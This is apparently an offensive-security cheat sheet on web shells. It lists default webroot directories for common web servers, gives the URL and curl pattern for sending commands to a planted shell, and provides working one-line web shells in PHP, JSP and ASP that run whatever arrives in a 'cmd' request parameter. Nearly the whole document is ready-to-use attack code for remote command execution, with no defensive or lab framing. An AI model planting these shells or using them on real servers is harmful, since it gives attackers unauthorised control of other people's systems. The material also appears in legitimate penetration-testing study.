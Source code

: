 # Web Shells

## Default Webroot for common web servers

| Web Server |                        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | C:\inetpub\wwwroot\\   |
| XAMPP      | C:\xampp\htdocs\\      |

***

## Accessing Web Shell

```http
http://server_ip:port/shell.php?cmd=command_here

curl http://server_ip:port/shell.php?cmd=command_here 
```

***

## Shell scripts

<details>

<summary>PHP - Shell.php</summary>

```php
<?php system($_REQUEST["cmd"]); ?>


```

</details>

<details>

<summary>JSP - Shell.jsp</summary>

```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

</details>

<details>

<summary>ASP - Shell.asp</summary>

```javascript
<% eval request("cmd") %>
```

</details>

